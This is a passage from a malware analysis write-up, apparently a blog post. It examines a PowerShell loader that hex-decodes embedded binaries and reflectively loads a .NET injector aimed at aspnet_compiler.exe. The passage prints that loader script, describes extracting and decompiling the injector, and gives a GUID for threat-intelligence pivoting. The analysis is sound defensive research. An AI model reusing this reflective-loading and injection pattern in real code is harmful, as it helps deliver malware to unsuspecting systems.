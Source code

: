 ```powershell
[String]$H1= $HH1
Function H2 {
 
    [CmdletBinding()]
    [OutputType([byte[]])]
    param(
        [Parameter(Mandatory=$true)] [String]$HBAR
    )
    $H3 = New-Object -TypeName byte[] -ArgumentList ($HBAR.Length / 2)
    for ($i = 0; $i -lt $HBAR.Length; $i += 2) {
        $H3[$i / 2] = [Convert]::ToByte($HBAR.Substring($i, 2), 16)
    }

    return [byte[]]$H3
}


[Byte[]]$H5=H2 $H4
[Byte[]]$H6= H2 $H1
$H12 = 'C:\Windows\Microsoft.NET\Framework\v4.0.30\aspnet_compiler.exe'
[Reflection.Assembly]::Load($H5).GetType('HH.HH').GetMethod('HHH').Invoke($null,[object[]](,$H6))
```

Now let's get at those binaries!

## Extracting the Binaries

Not going to lie, I cut some corners here using CyberChef. I used the Find/Replace operation followed by From Hex. Then we can save the contents out to disk and examine them.

## Decompiling the Injector

Alright, the first binary that I extracted was the .NET injection DLL held in `$H5`. The .NET code easily compiled with `ilspycmd`, but it contained a load of obfuscation. To save some time and space, I've gone ahead and included just the relevant parts below. The code contains references to `kernel32`, [`LoadLibraryA`](https://docs.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-loadlibrarya), and [`GetProcAddress`](https://docs.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-getprocaddress). These references mean the code likely imports additional native, non-.NET DLL functions at runtime for its injection operations. We can also see the function `HHH()`, which would be a good breakpoint if we decided to get into debugging this .NET code. For the cyber threat intelligence geeks out there, there's a feature in this code to help you pivot and find more samples in VirusTotal! The GUID `8c863524-938b-4d92-a507-f7032311c0d0` can be used with VirusTotal Intelligence or Enterprise to find additional samples using the search `netguid:8c863524-938b-4d92-a507-f7032311c0d0`. To learn more about the GUID, take a look at this post in VirusBulletin: [https://www.virusbulletin.com/virusbulletin/2015/06/using-net-guids-help-hunt-malware/](https://www.virusbulletin.com/virusbulletin/2015/06/using-net-guids-help-hunt-malware/)

```cs
[assembly: AssemblyTitle("Bit")]
[assembly: AssemblyDescription("")]
[assembly: AssemblyConfiguration("")]
[assembly: AssemblyCompany("")]
[assembly: AssemblyProduct("Bit")]
[assembly: AssemblyCopyright("Copyright ©  2021")]
[assembly: AssemblyTrademark("")]
[assembly: ComVisible(false)]
[assembly: Guid("8c863524-938b-4d92-a507-f7032311c0d0")]
[assembly: AssemblyFileVersion("1.0.0.0")]
[assembly: TargetFramework(".NETFramework,Version=v4.0", FrameworkDisplayName = ".NET Framework 4")]
[assembly: AssemblyVersion("1.0.0.0")]
namespace HH
{
    public static class HH
```